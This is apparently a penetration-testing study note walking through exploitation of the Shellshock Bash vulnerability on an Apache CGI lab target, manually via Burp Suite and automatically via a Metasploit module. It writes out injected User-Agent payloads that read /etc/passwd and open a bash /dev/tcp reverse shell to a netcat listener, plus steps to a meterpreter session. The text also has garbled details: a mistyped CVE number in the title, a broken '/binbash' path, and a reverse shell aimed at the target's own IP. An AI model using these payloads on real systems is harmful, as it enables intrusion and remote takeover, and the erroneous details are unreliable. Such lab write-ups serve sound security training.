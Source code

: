 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

### Manually

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`

### Automatically

service postgresql start && msfconsole

search shellshock

auxiliary module tells us if the target is vulnerable.

use exploit/multi/http/apache_mod_cgi_bash_env_exec

msf 5 exploit: show options

set rhosts [target IP]

We need to specify the targeturi, which is the path to the cgi script:

set targeturi /gettime.cgi

exploit

successfully obtained meterpreter session on the target.


node module

